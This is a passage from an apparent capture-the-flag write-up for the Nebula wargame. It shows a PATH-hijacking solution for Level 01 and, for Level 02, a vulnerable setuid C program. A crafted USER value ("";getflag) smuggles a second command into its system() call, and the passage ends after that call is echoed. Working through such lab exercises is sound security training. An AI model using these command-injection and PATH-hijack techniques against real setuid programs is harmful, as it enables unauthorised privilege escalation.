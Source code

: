 {{< highlight console >}}

level01@nebula:/home/flag01$ mkdir /tmp/mybin
level01@nebula:/home/flag01$ cd /tmp/mybin
level01@nebula:/tmp/mybin$ which getflag
/bin/getflag
level01@nebula:/tmp/mybin$ cp /bin/getflag echo
level01@nebula:/tmp/mybin$ cd ~flag01
level01@nebula:/home/flag01$ export PATH=/tmp/mybin:${PATH}
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account

{{< / highlight >}}

## Level 02 ##

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it? 

{{< highlight C >}}

#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

 asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
{{< / highlight >}}

This is very similar to *Level01* but this time they seem to have patched the system call. However this time they've added something to the statement that we have control over. Look at line 22 and think about how we can make use of that.

{{< highlight console >}}
level02@nebula:/home/flag02$ export USER='"";getflag'
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo "";getflag is cool")
